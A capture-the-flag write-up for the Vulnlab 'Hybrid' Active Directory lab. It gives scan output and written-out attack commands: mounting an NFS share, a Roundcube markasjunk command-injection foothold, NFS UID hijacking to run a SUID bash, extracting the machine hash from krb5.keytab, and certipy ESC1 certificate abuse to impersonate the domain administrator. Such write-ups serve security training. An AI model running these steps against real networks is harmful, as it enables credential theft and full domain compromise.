

# Description
Hybrid is an Active Directory chain from Vulnlab. You will find an NFS share containing credentials for Roundcube. Find a vulnerable plugin and get a foothold on the box. Hijack a domain user's linux ID to run bash as that user. Check the KeePass database and use the found credentials on the DC. Find an interesting way to abuse AD CS ESC1 and read the root flag.
# Information Gathering & Enumeration
Domain Controller nmap scan:
```
# Nmap 7.94SVN scan initiated Tue Oct  8 12:57:30 2024 as: nmap -sCV -oN nmap/initial_181 10.10.220.181
Nmap scan report for 10.10.220.181 (10.10.220.181)
Host is up (0.045s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-08 16:57:39Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2024-07-17T16:39:23
|_Not valid after:  2025-07-17T16:39:23
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2024-07-17T16:39:23
|_Not valid after:  2025-07-17T16:39:23
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2024-07-17T16:39:23
|_Not valid after:  2025-07-17T16:39:23
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.hybrid.vl
| Not valid before: 2024-07-17T16:39:23
|_Not valid after:  2025-07-17T16:39:23
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc01.hybrid.vl
| Not valid before: 2024-07-16T16:48:12
|_Not valid after:  2025-01-15T16:48:12
|_ssl-date: 2024-10-08T16:59:08+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HYBRID
|   NetBIOS_Domain_Name: HYBRID
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hybrid.vl
|   DNS_Computer_Name: dc01.hybrid.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-10-08T16:58:28+00:00
55555/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-08T16:58:32
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct  8 12:59:11 2024 -- 1 IP address (1 host up) scanned in 101.13 seconds
```
`MAIL01` nmap scan:
```
# Nmap 7.94SVN scan initiated Tue Oct  8 12:58:04 2024 as: nmap -sCV -T4 -oN nmap/initial_182 10.10.220.182
Nmap scan report for 10.10.220.182 (10.10.220.182)
Host is up (0.046s latency).
Not shown: 990 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:bc:22:26:78:3c:b4:e0:6b:ea:aa:1e:c1:62:5d:de (ECDSA)
|_  256 a3:b5:d8:61:06:e6:3a:41:88:45:e3:52:03:d2:23:1b (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: mail01.hybrid.vl, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, AUTH PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, CHUNKING
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Redirecting...
110/tcp  open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: STLS SASL AUTH-RESP-CODE PIPELINING UIDL TOP RESP-CODES CAPA
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33169/udp   mountd
|   100005  1,2,3      35537/udp6  mountd
|   100005  1,2,3      40733/tcp6  mountd
|   100005  1,2,3      58207/tcp   mountd
|   100021  1,3,4      37374/udp   nlockmgr
|   100021  1,3,4      37841/tcp   nlockmgr
|   100021  1,3,4      40817/tcp6  nlockmgr
|   100021  1,3,4      58855/udp6  nlockmgr
|   100024  1          49299/udp   status
|   100024  1          50077/tcp   status
|   100024  1          52092/udp6  status
|   100024  1          59965/tcp6  status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
143/tcp  open  imap     Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: more LOGIN-REFERRALS LITERAL+ LOGINDISABLEDA0001 have listed Pre-login OK ENABLE STARTTLS SASL-IR capabilities post-login IDLE IMAP4rev1 ID
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
587/tcp  open  smtp     Postfix smtpd
|_smtp-commands: mail01.hybrid.vl, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, AUTH PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, CHUNKING
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
|_imap-capabilities: more LOGIN-REFERRALS LITERAL+ have post-login listed Pre-login capabilities ENABLE OK SASL-IR AUTH=PLAIN AUTH=LOGINA0001 IMAP4rev1 IDLE ID
995/tcp  open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=mail01
| Subject Alternative Name: DNS:mail01
| Not valid before: 2023-06-17T13:20:17
|_Not valid after:  2033-06-14T13:20:17
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: SASL(PLAIN LOGIN) USER AUTH-RESP-CODE PIPELINING UIDL TOP RESP-CODES CAPA
2049/tcp open  nfs_acl  3 (RPC #100227)
Service Info: Host:  mail01.hybrid.vl; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct  8 12:59:23 2024 -- 1 IP address (1 host up) scanned in 78.63 seconds
```
Enumerating NFS on `MAIL01`, I've found that I can mount `/opt/share *`:
```
sudo showmount -e mail01.hybrid.vl
```


Mount the NFS share:
```
sudo mount -t nfs mail01.hybrid.vl:/opt/share ./target-nfs -o nolock
```


Extracting the backup archive, I've found the following files:


Inside `etc/dovecot/dovecot-users` I've found some clear-text credentials:


Visiting `http://mail01.hybrid.vl` we can see that the webserver is running `Roundcube` and peter.turner's credentials can be used there.


There is an email coming from `admin@hybrid.vl` telling the user that there is a `junk filter` plugin enabled.


Clicking on the `About` button, I can see the installed plugins:


Remember the mail sent by the administrator. After a bit of researching on `markasjunk` we can see that `Roundcube 1.6.1` is affected if the `markasjunk` plugin is enabled.
[https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/](https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/).

So, basically you need to change the email identity of the user to something like this:


You cannot directly edit from the browser since `Roundcube` will tell you that this is an invalid email address so I used burp suite and that was my request:


Send it, mark email as junk, and get the shell.


Looking into `/tmp` we can find a ticket for `peter.turner@hybrid.vl`


However, you cannot transfer it to your attack box or use it.

Going back to NFS, we can copy a file to the mounted share and we will see that it will appear inside `/opt/share` on the foothold box. 
On my box `lmao.txt` is owned by `reap`. On `mail01` it is owned by `1001` which is `reap`'s ID on the attack host. 


We can try to create a user with `peter`'s id and upload files as him.
Create new user with id of `peter.turner`:
```
sudo useradd -u 902601108 hybrid
```


The attack plan is pretty simple. I will copy `/bin/bash` from the foothold to the nfs share. Using the user with `peter`'s id, I will copy it to `/tmp` and copy it back to the share (after deleting the bash file on the share). I will add a SUID bit from the `hybrid` user which has `peter`'s id and I will run it from the foothold box.


Execute the bash file with the hijacked ID from the foothold box:


Inside `peter.turner@hybrid.vl`'s home directory you can find the first flag and a `passwords.kdbx` keepass database.
The kdbx file is password protected but you can use peter's password found earlier.
]

Inside the `.kdbx` file is the password for `peter.turner` on `hybrid.vl`:


We can validate that using nxc:
```
nxc smb DC01 -u peter.turner -p 'xxxxxx'
```


To get the second flag, you can ssh as `peter.turner` and running `sudo -l` you will see that you can run any command as sudo.


Collect information for bloodhound:
```
nxc ldap 10.10.220.181 -u peter.turner -p 'xxxx' --bloodhound -c All --dns-server 10.10.220.181
```
For domain escalation, I will abuse `AD CS`, `ESC1`.
Find vulnerable certificates:
```
certipy find -vulnerable -u peter.turner@hybrid.vl -p xxxxx -dc-ip 10.10.220.181 -stdout
```


To be able to request this certificate, we need to be inside `Domain Admins`, `Domain Computers` or `Enterprise Admins` so we cannot just use `peter.turner`. Remember we've already compromised a domain computer which is `MAIL01`.


We just need to find the NTLM hash of `MAIL01`, but being on a `Linux` box, we will use `keytabextract`. Don't forget that on Linux domain joined machines, the NTLM hash of the computer account can be found inside `/etc/krb5.keytab`.


Extract NTLM hash for `MAIL01$`:
```
python3 keytabextract.py /etc/krb5.keytab
```


Request certificate to impersonate `administrator`:
```
certipy req -u MAIL01\$@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -ca hybrid-DC01-CA -template HybridComputers -dc-ip 10.10.220.181 -target DC01 -dns DC01 -upn 'administrator@hybrid.vl' -key-size 4096
```


```ad-note
Specify the keysize or you will encounter the following error: CERTSRV_E_KEY_LENGTH
```
Get TGT using the `.pfx` certificate:
```
certipy auth -pfx administrator_dc01.pfx
```


Use `impacket-smbclient` to login as administrator and get the root flag:
```
impacket-smbclient -k -no-pass DC01
```


[https://api.vulnlab.com/api/v1/share?id=4bacf963-c79e-443d-928c-092802b55556](https://api.vulnlab.com/api/v1/share?id=4bacf963-c79e-443d-928c-092802b55556)
# Resources
[https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/](https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/)
[https://www.thegeekdiary.com/basic-nfs-security-nfs-no_root_squash-and-suid/](https://www.thegeekdiary.com/basic-nfs-security-nfs-no_root_squash-and-suid/)
